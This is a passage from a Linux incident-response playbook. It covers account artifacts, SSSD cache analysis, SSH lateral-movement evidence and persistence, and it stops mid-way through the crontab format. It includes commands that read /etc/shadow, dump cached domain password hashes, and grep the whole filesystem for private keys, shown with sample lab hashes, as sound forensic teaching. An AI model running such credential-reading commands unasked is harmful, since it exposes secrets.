

Introduction
In the current digital environment, robust and targeted incident response strategies are necessary to tackle the range of cyber threats organizations face. Despite Linux systems' inherent security strengths, they remain potential targets for attackers. Therefore, It is important to have a Linux-specific incident response playbook, which is the purpose of the TuxTriage Playbook.
The TuxTriage Playbook is an incident response playbook specifically developed for the Linux Operating Systems. It facilitates the triage and examination of suspicious live hosts, allowing for swift incident identification, triage, and evidence collection.
The playbook addresses several key investigative points that can aid an examiner in understanding the extent of a potential breach:
-
User Accounts: This section aims to identify all user accounts on the system, their respective permissions, and any recent account modifications. These details can reveal unauthorized system access.
-
Lateral Movement: The playbook evaluates if the attacker has managed to gain access to other systems in the network. Identifying the tactics used in this movement can help improve defense mechanisms.
-
Malware Persistence: This segment assesses how malware has managed to persist on the system, including using known persistence techniques such as auto-runs, allowing for a comprehensive malware investigation and removal process.
-
Data Theft: The playbook investigates whether the attacker has attempted to access data within the system. This information is crucial in understanding the scope of the breach and informing recovery efforts.
-
Configuration Management: The final section evaluates the current state of the system's configuration, detecting recent modifications that may indicate system compromise.
By addressing each of these areas, the TuxTriage Playbook provides a rapid response protocol for incidents and informs long-term strategies for system hardening and threat prevention. This playbook is essential in navigating the challenges of Linux system breaches, ensuring a swift and effective incident response.
How to use this book?
This book has been designed to be both a comprehensive guide and a handy reference manual for anyone interested in intrusion analysis. It provides a deep dive into raw files, data structures, and forensics artifacts, serving as a rich resource for both beginners and seasoned professionals in the field. Please take a moment to read through the following guidelines to make the most out of this resource.
Start with Basics: If you are a beginner or need a refresher on the basic concepts, start from the first chapters that detail the raw files and data structures used in intrusion analysis.
Understand the Data Structures: This book discusses data structures and file formats in detail. Ensure you understand these since they form the crux of many analyses that follow. The objective is to understand the file's contents and its limitations comprehensively.
Explore Forensic Artifacts: Details about forensic artifacts that may be relevant to intrusion analysis are provided under each section of the book. These chapters can be instrumental in your practical work, allowing you to identify better, analyze, and interpret forensics artifacts during intrusion analysis.
Refer to the Datasource Catalog: The Datasource Catalog section serves as a quick reference guide for all files of interest mentioned in the book. It briefly describes each file and its significance in intrusion analysis. You can refer to this section when encountering unfamiliar files or need to understand a file's relevance quickly.
Recognize System-Specific Limitations: Please note that some files discussed in this book may not exist on certain systems based on their specific configurations. If you encounter this, don't be alarmed. This book aims to be as comprehensive as possible, but the nature of diverse system configurations means that not all files will be present on all systems.
Minimized Use of System Commands: This book diverges from many other resources on the subject matter by largely refraining from using built-in system commands, save for the inspection of file contents using the cat command. This approach is adopted for several critical reasons:
-
Preservation of Evidence: To maintain the integrity of the investigation, we should avoid tampering with the system's state. Running various commands may inadvertently alter the system's state under scrutiny, potentially impacting the reliability of the evidence.
-
Compatibility with Disk Images: The utilization of disk images is a common practice in digital forensics. Within this context, executing commands is typically unfeasible. By focusing on raw files and data structures, this book ensures its teachings are applicable even when working with disk images.
-
Enabling Evidence Extraction: This book provides the knowledge necessary to extract relevant files from the system and conduct detailed analyses on a separate forensic workstation by focusing on raw files and data structures. This method ensures the preservation of the original evidence and enhances the overall investigative process by providing more flexibility and control over the analysis environment.
This book is designed to be a journey into the heart of intrusion analysis, taking you from the basics to the complexities of forensic artifacts. By studying, practicing, and understanding the principles within, you'll be well-prepared to tackle real-world intrusion analysis tasks and challenges.
Happy hunting!
Recommended Reading
The following resources provide substansial background on the cyber incident response process.
CISA: Cybersecurity Incident & Vulnerability Response Playbooks 1
Operational Procedures for Planning and Conducting Cybersecurity Incident and Vulnerability Response Activities in FCEB Information Systems.
When to use this playbook
Use this playbook for incidents that involve confirmed malicious cyber activity for which a major incident has been declared or not yet been reasonably ruled out.
NIST: Computer Security Incident Handling Guide 2
This document has been created for computer security incident response teams (CSIRTs), system and network administrators, security staff, technical support staff, chief information officers (CIOs), computer security program managers, and others who are responsible for preparing for, or responding to, security incidents
CERT SG: UNIX/LINUX Intrusion Detection 3
A cheat sheet dedicated to handlers investifating on a precise security issue.
Who should use IRM sheets
- Administrators
- Security Operation Center
- CISOs and deputies
- CERTs
Incident Handling Steps
The incident response life cycle as defined by NIST Computer Security Incident Handling Guide1 has the following 5 steps:
- Preparation
- Detection & Analysis
- Containment, Eradication & Recovery
- Post-Incident Activity
This playbook may be used to aid in the first two steps of the life cycle.
Preparation Phase
The preparation phase calls for the establishment and training of an incident response team along with acquiring the necessary tools and resources to perform the response activities. This playbook is designed as a training guide for analysts working with Linux OS.
Detection & Analysis
Signs of an incident fall into one of two categories: precursors and indicators. A precursor is a sign that an incident may occur in the future. An indicator is a sign that an incident may have occurred or may be occurring now 1.
The playbook serves as a handbook and provides the sources for indicators. It details where to look for indicators, what conclusions can be drawn from the indicators as well as the data structure and organization of such artifacts.
TODO
- Add the incident response process picture
- Explain the process in detail
User Accounts
User accounts are a crucial component of any digital forensics investigation. They provide valuable information about who had access to a system, what they did while logged in, and what resources they may have accessed.
User accounts can be local to the host or managed centrally using Active Directory, OpenLDAP, Novell eDirectory, etc.
There are three main types of user accounts on a Linux System:
-
Superuser account: Also known as the root, this account has full administrative privileges on the system.
-
Regular user account: Regular user accounts have limited access to the system. They may only access files and resources they are explicitly granted access. A regular user can be granted additional privileges by adding the user to a group with the desired privileges or by granting the user specific permissions on specific files or directories.
-
System account (Service account): System accounts correspond to a service running on the system rather than to someone using the system. Service accounts are used by system services such as web servers, mail transport agents, databases etc. Note that there is no formal distinction between a regular user account vs. a system/service account at a system level. The key differences are that a regular user account has a login shell and wider privileges.
Local User Accounts
These are accounts local to the host.
Local account information are stored in two files.
/etc/passwd
/etc/shadow
Additionally group information is saved at the following location.
/etc/group
/etc/gshadow
/etc/passwd 1
The /etc/passwd file is a text file. Each line represents information about a single user account. This fields are seperated by a colon (:) symbol. There are seven fields saved in each row 2.
[tlasso@rhel-richmondfc ~]$ cat /etc/passwd | grep tlasso
tlasso:x:1000:1001:tlasso:/home/tlasso:/bin/bash
[tlasso@rhel-richmondfc ~]$
Username: The user name of the user.Password: An x character indicates that the password is in the/etc/shadowfile.User ID (UID): A unique id assigned to the userGroup ID (GID): The primary group ID.User ID Info: Additional user informationHome Directory: Home directory of a userCommand/shell: Typically this is a shell. But if an account does not have interactive logon privileges then this can be set to/sbin/nologin
/etc/shadow 3
The /etc/shadow file contains one entry per line for each user account on the system. Each entry consists of several fields separated by colons (:). The fields typically include the username, password hash, and various account-related information such as password expiration, account expiration, and account locking.
The password hash stored in the /etc/shadow file is an encrypted version of the user's password. When a user attempts to log in, the system takes the password entered by the user, applies the same encryption algorithm, and compares the resulting hash with the one stored in the /etc/shadow file. If the hashes match, the user is granted access.
[tlasso@rhel-richmondfc ~]$ sudo cat /etc/shadow | grep tlasso
tlasso:$6$jP1ap6xJUfvAgVjH$JxTdfXUOIqbpa3FpgALilTJvGnUfuUcDn8Qz.cxBf6yrFjo2332IHsCkHtg9QCHM7A4p9EcOZn.tXBWYK3RVO0::0:99999:7:::
Username: The user name of the user.Password: Encrypted password in hash format.Last password change date: Data type is Long. 0 indicates that the user must change the password on next logon. Empty value inidcates that feature is disabled. A long value greater than 0 indicates the date of password change expressed in the form of days since Unix epoch.
/etc/group 4
The /etc/group file contains a list of groups, one entry per line. Each line is colon delimited and contains four fields.
[tlasso@rhel-richmondfc ~]$ sudo cat /etc/group | grep tlasso
wheel:x:10:tlasso
coaching-staff:x:1000:tlasso
Group name: Name of the groupGroup Password: When this field is set tox, then a password is required to join the group.Group Id (GID): A numeric group idMember List: The list of users that belong to the group. List is comma seperated.
/etc/gshadow 5
The /etc/gshadow file contains the encrypted group password, group membership and administrator information. This file also contains information per group per line. It is colon delimeted and lists the members of the group in a comma seperated list
[tlasso@rhel-richmondfc ~]$ sudo cat /etc/gshadow | grep tlasso
wheel:::tlasso
coaching-staff:!::tlasso
Group name: Name of the groupEncrypted password: Group passwordGroup administrators: Comma delimited list of users. Add or remove from this list usinggpasswdcommand.Group members: Non-admin group members.
/var/log/lastlog
The /var/log/lastlog file contains the list of records for last login times mapped by user ids. The lastlog command may be used to display its contents.
[tlasso@rhel-richmondfc Documents]$ lastlog
Username Port From Latest
root pts/0 Wed Jun 14 02:53:13 -0400 2023
bin **Never logged in**
daemon **Never logged in**
... ... ...
adm **Never logged in**
gdm tty1 Sun Jul 2 12:04:28 -0400 2023
tlasso tty2 Sun Jul 2 12:04:37 -0400 2023
The lastlog file, in binary format, stores crucial data about the most recent logon activity of local user accounts. Each logon record within this file is composed of 292 bytes. To parse through this binary data and locate a specific logon record for a user based on the user ID (UID), you'll need to calculate the seek position within the file. For instance, for a user with UID=1000, the seek position is calculated as pos=292*1000, which, in hexadecimal, is 000474a0. This position denotes where the user's logon record begins in the file. The record itself is divided into two segments: the first 32 bytes hold the timestamp of the last logon, and the remaining bytes store information about the host.
[tlasso@rhel-richmondfc Documents]$ hexdump -C /var/log/lastlog
00000000 d9 63 89 64 70 74 73 2f 30 00 00 00 00 00 00 00 |.c.dpts/0.......|
00000010 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 |................|
*
00002fe0 00 00 00 00 00 00 00 00 0c a0 a1 64 74 74 79 31 |...........dtty1|
00002ff0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 |................|
*
000474a0 15 a0 a1 64 74 74 79 32 00 00 00 00 00 00 00 00 |...dtty2........|
000474b0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 |................|
User account creation
Please refer to RHEL6 documentation for details and command references for user creation.
Active Directory Accounts
Active directory accounts are managed by the AD server. No local entries are manintained by the host regarding them.
System Security Services Daemon (SSSD) is generally used by RHEL for AD based authentication.
This is not limited to AD, the following combinations are supported. 1
| Identity Provider | Authentication Provider |
|---|---|
| Identity Management | Identity Management |
| Active Directory | Active Directory |
| LDAP | LDAP |
| LDAP | Kerberos |
| Proxy | Proxy |
| Proxy | LDAP |
| Proxy | Kerberos |
SSSD does not create user accounts on the local system. However, SSSD can be configured to create home directories for IdM users. Once created, an IdM user home directory and its contents on the client are not deleted when the user logs out 1.

SSSD maintains a local cache about the users that attempted to logon to the local system.
UID/GID for AD Users
Windows uses security ids (SID) and is incompatible with Linux UID/SID. SSSD autogenerates the UID and GID from the SIDs when the user logs on to a linux host for the first time. This information is cached as mentioned above. Note that the UID generated from a SID is always the same.
ID mapping can be disabled. This should be used if AD defined POSIX attributes are to be used instead.
Forensic Artifacts
There exists a number of utility programs that can generate the information listed below such as wbinfo and getent. Since we are interested in forensic evidence artifacts that can be collected and reviewed offline the focus here is to examine the file contents directly. This is also required when we are presented with a disk image of a system and not the live running system.
Unexpected Local user accounts
Look for unusual user accounts in the /etc/passwd
#!/bin/bash
NI_SHELLS="/sbin/nologin|/sbin/false|/sbin/true|/bin/sync|/sbin/shutdown|/sbin/halt"
echo "Non Interactive / Service Accounts"
echo "**********************************"
egrep $NI_SHELLS /etc/passwd | cut -d: -f1
echo ""
echo "Interactive Users"
echo "*****************"
egrep -v $NI_SHELLS /etc/passwd | cut -d: -f1
echo ""
Sample output
[tlasso@rhel-richmondfc scripts]$ ./list_users.sh
Non Interactive / Service Accounts
**********************************
bin
daemon
adm
lp
sync
shutdown
halt
mail
operator
games
ftp
nobody
systemd-coredump
dbus
polkitd
avahi
tss
colord
clevis
rtkit
sssd
geoclue
libstoragemgmt
systemd-oom
setroubleshoot
pipewire
flatpak
gdm
cockpit-ws
cockpit-wsinstance
gnome-initial-setup
sshd
chrony
dnsmasq
tcpdump
Interactive Users
*****************
root
tlasso
The /etc/group, /etc/shadow, /etc/gshadow must be cross referenced to check for any user ids or groups that are not recognized.
This can be sign of an orphaned user account that was not removed correctly.
Account Earliest Activity & Deleted Accounts
The user home directory is created for all interactive users (unless explicitly configured).
Examine the /home/ folder for a list of home directories.
[tlasso@rhel-richmondfc ~]$ sudo ls -al /home
total 12
drwxr-xr-x. 5 root root 84 Jun 14 03:21 .
dr-xr-xr-x. 18 root root 235 Jun 14 02:26 ..
drwx------. 14 357201109 357200513 4096 Jun 14 03:23 nate@corp.tuxtriage.net
drwx------. 15 tlasso tlasso 4096 Jun 18 19:25 tlasso
drwx------. 14 357201108 357200513 4096 Jun 14 03:14 tlasso@corp.tuxtriage.net
Note that in the above example there are two tlasso users. The tlasso user is a local system user while the tlasso@corp.tuxtriage.net is an AD user.
Since one of the first things the system does when a user is created is the creation of the home directory, this information can be approximated to the earliest presense of this user on the host.
If the investigation timelines are outside the earliest activity date, the user account may not be part of the incident.
The Birth time of the folder can be used for this purpose.
[tlasso@rhel-richmondfc ~]$ stat /home/*
File: /home/nate@corp.tuxtriage.net
Size: 4096 Blocks: 8 IO Block: 4096 directory
Device: fd00h/64768d Inode: 102693422 Links: 14
Access: (0700/drwx------) Uid: (357201109/ UNKNOWN) Gid: (357200513/ UNKNOWN)
Context: unconfined_u:object_r:user_home_dir_t:s0
Access: 2023-06-14 03:21:01.790738178 -0400
Modify: 2023-06-14 03:23:10.091326083 -0400
Change: 2023-06-14 03:23:10.091326083 -0400
Birth: 2023-06-14 03:21:01.790738178 -0400
File: /home/tlasso
Size: 4096 Blocks: 8 IO Block: 4096 directory
Device: fd00h/64768d Inode: 69333680 Links: 15
Access: (0700/drwx------) Uid: ( 1000/ tlasso) Gid: ( 1001/ tlasso)
Context: unconfined_u:object_r:user_home_dir_t:s0
Access: 2023-06-18 19:32:30.473261644 -0400
Modify: 2023-06-18 19:25:15.008942407 -0400
Change: 2023-06-18 19:25:15.008942407 -0400
Birth: 2023-06-14 02:30:33.307059622 -0400
File: /home/tlasso@corp.tuxtriage.net
Size: 4096 Blocks: 8 IO Block: 4096 directory
Device: fd00h/64768d Inode: 101569584 Links: 14
Access: (0700/drwx------) Uid: (357201108/ UNKNOWN) Gid: (357200513/ UNKNOWN)
Context: unconfined_u:object_r:user_home_dir_t:s0
Access: 2023-06-14 03:11:59.697315839 -0400
Modify: 2023-06-14 03:14:12.457619105 -0400
Change: 2023-06-14 03:14:12.457619105 -0400
Birth: 2023-06-14 03:11:59.697315839 -0400
Last logon time
Compile a comprehensive list detailing the latest logon times for all local accounts by parsing the /var/log/lastlog.
This following script, automates the traversal and data extraction. It reads the lastlog file, usually located at /var/log/lastlog, and iterates over it, decoding the binary data into human-readable format. For each record, it prints out the user ID along with the respective last logon timestamp.
#!/usr/bin/env python
# -*- coding:utf-8 -*-
import struct
import collections
import datetime
import os
LSTLOGSTRUCT = struct.Struct('=l32s256s')
LSTLOGRecord = collections.namedtuple(
"LLRecord",
'time line host'
)
lastlog_path='/var/log/lastlog'
with open(lastlog_path, 'rb') as fp:
uid = 0
seekto = 0
size = LSTLOGSTRUCT.size
end = os.fstat(fp.fileno()).st_size
while True:
fp.seek(seekto, 0)
bytes = fp.read(LSTLOGSTRUCT.size)
if not bytes:
break
if seekto > end:
break;
data = LSTLOGSTRUCT.unpack(bytes)
time, line, host = data
time = datetime.datetime.fromtimestamp(time) if time else None
line = line.strip(b'')
host = host.strip(b'')
if time is not None:
print("UID: {}. Last Logon: {}. Host: {}. Line:{}".format( uid, time, host, line))
uid = uid+1
seekto = seekto + size
[tlasso@rhel-richmondfc Documents]$ ./test.py
UID: 0. Last Logon: 2023-06-14 02:53:13. Host: b''. Line:b'pts/0'
UID: 42. Last Logon: 2023-07-02 12:04:28. Host: b''. Line:b'tty1'
UID: 1000. Last Logon: 2023-07-02 12:04:37. Host: b''. Line:b'tty2'
SSSD Cache
Any user that logs on via AD does not leave much trace on the system maintained files such as /etc/passwd etc. However, there are cache files that are updated as part of the logon process that can be analyzed to detect malicious user activity.
SSSD cache is located at /var/lib/sss/db.
[tlasso@rhel-richmondfc scripts]$ sudo ls /var/lib/sss/db
cache_corp.tuxtriage.net.ldb ccache_CORP.TUXTRIAGE.NET config.ldb sssd.ldb timestamps_corp.tuxtriage.net.ldb
Of interest to us is the cache_corp.tuxtriage.net.ldb ldb database. See details about lbd format here 1.
ldbsearch command can be used to search this database for records of interest.
tlasso@rhel-richmondfc scripts]$ sudo ldbsearch -H /var/lib/sss/db/cache_corp.tuxtriage.net.ldb
asq: Unable to register control with rootdse!
# record 1
dn: gpoGUID={31B2F340-016D-11D2-945F-00C04FB984F9},cn=gpos,cn=ad,cn=custom,cn=corp.tuxtriage.net,cn=sysdb
gpoGUID: {31B2F340-016D-11D2-945F-00C04FB984F9}
gpoVersion: 3
objectClass: gpo
gpoPolicyFileTimeout: 1686727266
distinguishedName: gpoGUID={31B2F340-016D-11D2-945F-00C04FB984F9},cn=gpos,cn=a
d,cn=custom,cn=corp.tuxtriage.net,cn=sysdb
...
# record 3
dn: name=tlasso@corp.tuxtriage.net,cn=users,cn=corp.tuxtriage.net,cn=sysdb
createTimestamp: 1686726711
fullName: Ted Lasso
gecos: Ted Lasso
gidNumber: 357200513
name: tlasso@corp.tuxtriage.net
objectCategory: user
uidNumber: 357201108
objectSIDString: S-1-5-21-2369507818-3716282536-1365522936-1108
uniqueID: 5e499899-1305-460b-82d9-87a949f32d18
originalDN: CN=Ted Lasso,CN=Users,DC=corp,DC=tuxtriage,DC=net
originalModifyTimestamp: 20230614062722.0Z
entryUSN: 41335
userPrincipalName: tlasso@CORP.TUXTRIAGE.NET
adAccountExpires: 9223372036854775807
adUserAccountControl: 512
nameAlias: tlasso@corp.tuxtriage.net
isPosix: TRUE
lastUpdate: 1686726711
dataExpireTimestamp: 1686732111
initgrExpireTimestamp: 0
ccacheFile: KCM:
cachedPasswordType: 1
failedLoginAttempts: 0
memberof: name=Domain Users@corp.tuxtriage.net,cn=groups,cn=corp.tuxtriage.net
,cn=sysdb
pacBlob:: BwAAAAAAAAABAAAA2AEAAHgAAAAAAAAABgAAABAAAABQAgAAAAAAAAcAAAAQAAAAYAIA
AAAAAAAKAAAAFgAAAHACAAAAAAAADAAAAKgAAACIAgAAAAAAABAAAAAQAAAAMAMAAAAAAAATAAAAE
AAAAEADAAAAAAAAARAIAMzMzMzIAQAAAAAAAAAAAgCpHPiCj57ZAf////////9//////////38lSO
9GiZ7ZASUIWXFSn9kBJchIPIq/2QEMAAwABAACABIAEgAIAAIAAAAAAAwAAgAAAAAAEAACAAAAAAA
UAAIAAAAAABgAAgABAAAAVAQAAAECAAABAAAAHAACACAAAAAAAAAAAAAAAAAAAAAAAAAAHgAgACAA
AgAIAAoAJAACACgAAgAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAAA
CwAAgAAAAAAAAAAAAAAAAAGAAAAAAAAAAYAAAB0AGwAYQBzAHMAbwAJAAAAAAAAAAkAAABUAGUAZA
AgAEwAYQBzAHMAbwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAEAAAABAgAABwAAABAAAAAAAAAADwAAAFcASQBOAC0AVABVAEUAMQBWADIATQBKAEYANQBS
AAAABQAAAAAAAAAEAAAAQwBPAFIAUAAEAAAAAQQAAAAAAAUVAAAA6tE7jaj4gd34OWRRAQAAADAAA
gAHAAAAAQAAAAEBAAAAAAASAQAAABAAAABi2JyYFqoO2sq6CcwQAAAACawZ0ByD2C8dtvh8gE5Eq5
Ce2QEMAHQAbABhAHMAcwBvAAAAMgAYACQAUAACAAAADAB4ABwAiAAAAAAAdABsAGEAcwBzAG8AQAB
jAG8AcgBwAC4AdAB1AHgAdAByAGkAYQBnAGUALgBuAGUAdAAAAAAAAABDAE8AUgBQAC4AVABVAFgA
VABSAEkAQQBHAEUALgBOAEUAVAAAAAAAdABsAGEAcwBzAG8AAAAAAAEFAAAAAAAFFQAAAOrRO42o+
IHd+DlkUVQEAAAAAAAAEAAAAAElgqwi0pz73PmFIhAAAADlOc348iFviKxpfwI=
pacBlobExpireTimestamp: 1686727516
cachedPassword: $6$TuYfJdJ.n2nhNpsA$e8b8IGjnqoNmQCrWlit/Ucn7M2Iie2jq3DwOHEXTIz
FzY17zamTuy3loYoH/w5DVYqS7t8lM8v6Be2ijrMmLa0
lastCachedPasswordChange: 1686727216
lastOnlineAuth: 1686727216
lastOnlineAuthWithCurrentToken: 1686727216
lastLogin: 1686727216
distinguishedName: name=tlasso@corp.tuxtriage.net,cn=users,cn=corp.tuxtriage.n
et,cn=sysdb
...
# record 8
dn: name=nate@corp.tuxtriage.net,cn=users,cn=corp.tuxtriage.net,cn=sysdb
createTimestamp: 1686727258
fullName: Nathan Shelley
gecos: Nathan Shelley
gidNumber: 357200513
name: nate@corp.tuxtriage.net
objectCategory: user
uidNumber: 357201109
objectSIDString: S-1-5-21-2369507818-3716282536-1365522936-1109
uniqueID: a4d7ff67-c14f-4568-b803-b1344d456af8
originalDN: CN=Nathan Shelley,CN=Users,DC=corp,DC=tuxtriage,DC=net
originalModifyTimestamp: 20230614062944.0Z
entryUSN: 41342
userPrincipalName: nate@CORP.TUXTRIAGE.NET
adAccountExpires: 9223372036854775807
adUserAccountControl: 512
nameAlias: nate@corp.tuxtriage.net
isPosix: TRUE
lastUpdate: 1686727258
dataExpireTimestamp: 1686732658
initgrExpireTimestamp: 0
memberof: name=Domain Users@corp.tuxtriage.net,cn=groups,cn=corp.tuxtriage.net
,cn=sysdb
pacBlob:: BwAAAAAAAAABAAAA4AEAAHgAAAAAAAAABgAAABAAAABYAgAAAAAAAAcAAAAQAAAAaAIA
AAAAAAAKAAAAEgAAAHgCAAAAAAAADAAAAJgAAACQAgAAAAAAABAAAAAQAAAAKAMAAAAAAAATAAAAE
AAAADgDAAAAAAAAARAIAMzMzMzQAQAAAAAAAAAAAgAAAAAAAAAAAP////////9//////////38tnc
mbiZ7ZAS1dM8ZSn9kBLR0jkYq/2QEIAAgABAACABwAHAAIAAIAAAAAAAwAAgAAAAAAEAACAAAAAAA
UAAIAAAAAABgAAgAAAAAAVQQAAAECAAABAAAAHAACACAAAAAAAAAAAAAAAAAAAAAAAAAAHgAgACAA
AgAIAAoAJAACACgAAgAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAAA
CwAAgAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAABuAGEAdABlAA4AAAAAAAAADgAAAE4AYQB0AGgAYQ
BuACAAUwBoAGUAbABsAGUAeQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAABAAAAAQIAAAcAAAAQAAAAAAAAAA8AAABXAEkATgAtAFQAVQBFADEAVgAyAE0ASgBG
ADUAUgAAAAUAAAAAAAAABAAAAEMATwBSAFAABAAAAAEEAAAAAAAFFQAAAOrRO42o+IHd+DlkUQEAA
AAwAAIABwAAAAEAAAABAQAAAAAAEgEAAAAAAAAAEAAAANNBR2M9XYa9xX8pNxAAAACF+5OW95HsbT
4mEPAAwxbGkJ7ZAQgAbgBhAHQAZQAAAAAAAAAuABgAJABIAAIAAAAIAHAAHAB4AAAAAABuAGEAdAB
lAEAAYwBvAHIAcAAuAHQAdQB4AHQAcgBpAGEAZwBlAC4AbgBlAHQAAABDAE8AUgBQAC4AVABVAFgA
VABSAEkAQQBHAEUALgBOAEUAVAAAAAAAbgBhAHQAZQABBQAAAAAABRUAAADq0TuNqPiB3fg5ZFFVB
AAAAAAAABAAAAAiqzSyLHV5O4/3XFsQAAAAMpv8w439cfo71DnY
pacBlobExpireTimestamp: 1686727561
ccacheFile: KCM:
cachedPassword: $6$.9jD7fiamZSK.KjF$IPjQgS76hMIMOjZ2K6/j3HFC7hies1Ezyiuur85cMU
ZjKSntkCgNcxydyL86uqhpRJk9k7fTfMnkkqcs9xEKb/
cachedPasswordType: 1
lastCachedPasswordChange: 1686727261
failedLoginAttempts: 0
lastOnlineAuth: 1686727261
lastOnlineAuthWithCurrentToken: 1686727261
lastLogin: 1686727261
distinguishedName: name=nate@corp.tuxtriage.net,cn=users,cn=corp.tuxtriage.net
,cn=sysdb
...
# returned 14 records
# 14 entries
# 0 referrals
From the above results, we can locate domain users that have logged on by searching for entries with pacBlob value set. Once the records have been located, various attributes about the user activity can be determined.
User Name: This can be located at name as well as nameAlias
objectSIDString: The windows SID for this user. This is useful to locate activity of this user across other windows systems.
createTimestamp: The create time for this user
lastLogin: Last logon timestamp for the user.
Key-users 2
The /proc/key-users lists the users with at least one key in the system. It is useful to check this file to see if there are user-ids in this file that were not found anywhere else.
A user logging off from the system does not automatically clear this file. However this is a cache file and therefore the data will be cleared at some point.
[tlasso@rhel-richmondfc proc]$ cat /proc/key-users
0: 113 112/112 79/1000000 1591/25000000
42: 4 4/4 4/200 34/20000
997: 1 1/1 1/200 9/20000
1000: 4 4/4 4/200 46/20000
357201109: 2 2/2 2/200 38/20000
357201111: 4 4/4 4/200 56/20000
In this example, user with id 357201111 had logged off the ssh session.
Lateral movement
Lateral movement refers to the techniques used by attackers to move around the network once they have gained initial access. The attacker may or may not have fully compromized the host with privilige esclation attacks before lateral movement.
SSH lateral movement is typical for linux systems and an easy technique for attackers to exploit. Another attack technique is to use of SSH tunnels to create secure connections between systems and move data between systems without being detected.
It is important to note that there is no single way to detect SSH lateral movement.
SSH Logs
The sshd logs are written to the /var/log/secure file. See more details about the secure log file in the Log Analysis section.
As a first step, grep for sshd logs in the secure log file.
[tlasso@rhel-richmondfc log]$ sudo cat secure* | grep sshd
Jul 2 12:02:12 rhel-richmondfc sshd[950]: Server listening on :: port 22.
Jul 2 14:36:34 rhel-richmondfc sshd[6612]: pam_sss(sshd:auth): authentication success; logname= uid=0 euid=0 tty=ssh ruser= rhost=172.26.0.1 user=nate@corp.tuxtriage.net
Jul 2 14:36:34 rhel-richmondfc sshd[6612]: Accepted password for nate@corp.tuxtriage.net from 172.26.0.1 port 56050 ssh2
Jul 2 14:36:35 rhel-richmondfc sshd[6612]: pam_unix(sshd:session): session opened for user nate@corp.tuxtriage.net(uid=357201109) by (uid=0)
Jul 2 23:44:14 rhel-richmondfc sshd[949]: Server listening on 0.0.0.0 port 22.
From the above snippet, we can observe pam_sss(sshd:auth) - Pluggable Authentication Modules (PAM) using the System Security Services Daemon (SSSD) for the sshd service in the authentication phase.
The remote host from which the connection is originating is given by the rhost field.
Once the connection is accepted, the user details, including the uid of the user is logged to this file.
The above log entries can be used to construct an incoming logon session.
Outgoing ssh sessions are unfortunately not logged by default.
SSH Keys
SSH keys can provide password less authentication to network resources. However they can be exploited if not properly secured. An attacker who has compromized a host can impersonate the owner if the private keys are not protected.
Private keys
While presence of private keys does not establish lateral movement, it can establish the attack surface and investigation perimeter.
Use the grep command to look for key files.
grep -ir "BEGIN RSA PRIVATE KEY" /*
grep -ir "BEGIN DSA PRIVATE KEY" /*
If any keys are found on the system that is being investigated, look for entries in the ~/.known_hosts file along with the ~/.bash_history and ~/.ssh/config files and try to identify the hosts that the attacker may have communicated with.
Authorized keys
SSH authorized keys ~/ssh/authorized_keys stores the the public key and can be used for paswordless authentication from an attacker machine. This essentially acts as a back door entry.
Other tools
SSH is not the only lateral movement tool used by attackers. Protocols such as SNMP, Remote desktop protocols such as X window, VNC, Xrdp etc. can also be used.
https://highon.coffee/blog/ssh-lateral-movement-cheat-sheet/ 2: https://www.akamai.com/blog/security-research/linux-lateral-movement-more-than-ssh 3: https://redcanary.com/blog/lateral-movement-with-secure-shell/
Forensic Artifacts
SSHD Logs
Collect the log files from
/var/log/secure
SSH Keys
Collect the keys found on the filesystem
grep -ir "BEGIN RSA PRIVATE KEY" /*
grep -ir "BEGIN DSA PRIVATE KEY" /*
Collect the SSH Authorized keys from
~/ssh/authorized_keys
Collect the Known hosts, SSH config, and bash history files for all users
~/.known_hosts
~/.bash_history
~/.ssh/config
Other RAT tools
Look for installed applications and find any RAT tools such as
X WindowVNCXrdp
Persistence
Malware persistence is a technique used by malware to ensure that it remains on a system even after it has been rebooted or the user has logged off. This allows the malware to continue to run and execute its malicious code. Malware persistence is a critical part of many malware attacks. Without persistence, the malware would be easily removed by the user or by security software.
Malware persistence on Linux systems is achieved through a variety of methods, including:
-
Cron Jobs: Malware often manipulates cron, the Linux task scheduler, to execute malicious tasks periodically, thus maintaining persistence.
-
Systemd Services: Linux's system and service manager, systemd, can also be abused by malware to initiate malicious processes at system startup, ensuring malware persistence.
-
Script Modification: Malware can insert malicious code into commonly executed scripts, such as .bashrc or .bash_profile. Each time the script runs, so does the malware.
-
Kernel Module Manipulation: Malware with root access can insert malicious kernel modules, enabling it to operate at a low level, beyond the reach of many security measures.
-
Process Injection: Malware injects its code into a running process, allowing them to gain unauthorized access, manipulate process's behavior, or hide their presense. In addition to this, malware can gain persistence by running everytime the legitimate process runs.
Cron Jobs
Cron is a time-based job scheduler in *nix operating systems. It allows users to schedule commands or scripts to run at specific times or intervals. Cron jobs are often used to automate tasks, such as backups, file maintenance, and software updates. Unfortunately, it can also be leveraged by malicious actors for malware persistence.
There are two executables of note.
crond - this is the deamon program that run in the background and is responsible for executing the cron jobs. crond reads the crontab (cron table) file. The execution schedule is defined in a simple text format and contains the following. 1
- The time or interval at which the job should run
- The command or script that should be run
- The user that should run the job
These files can be system-wide or user specific.
Crontab File format
A cron job is defined by a single line in a crontab file, structured as follows:
* * * * * command-to-be-executed
- - - - -
| | | | |
| | | | ----- Day of the week (0 - 7) (Sunday = 0 or 7)
